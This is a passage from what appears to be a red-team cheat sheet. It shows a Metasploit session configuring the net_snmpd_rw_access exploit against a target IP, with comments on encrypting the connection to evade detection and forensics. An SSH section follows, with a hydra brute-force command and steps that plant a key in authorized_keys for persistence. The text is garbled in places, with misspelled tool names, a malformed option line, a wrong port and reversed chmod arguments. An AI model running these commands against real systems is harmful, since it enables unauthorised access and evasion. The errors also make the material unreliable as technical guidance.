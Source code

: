 ```bash
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Linux x86
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set SRVHOST [allow one ip (attacker ip) To Connect To Keep calm,clean and safe (Redteaming)]
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set SSL [Ecnrypt Your Connection To Evade some Network Attack Detaction methods & Forensics]
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set LHOST  192.168.1.4 [attacker IP will developed in shellcode]
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set COMMUNITY  private          
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set  RHOSTS     191.26.12.102
msf6 exploit(linux/snmp/net_snmpd_rw_access) > VERSION    1/2
msf6 exploit(linux/snmp/net_snmpd_rw_access) >run
```

# **`TCP`**

## `22`

## SSH  (Secure Shell)

### **Manual :**

`ssh user:pass@IP`

### **Brute force**

**Tools**:

**TCHhydra**

**msfconsole**

**Cobaltstrike**

**msdussa**

**hydra** `hydra -L user.txt -P passwrd.txt ssh://ip -s 21`  

### **Key-Gen**

`ssh-keygen -t rsa`

`Enter passphrase (empty for no passphrase):`

`cat id_rsa.pub >> authorized_keys`

`chmod authorized_keys 600`
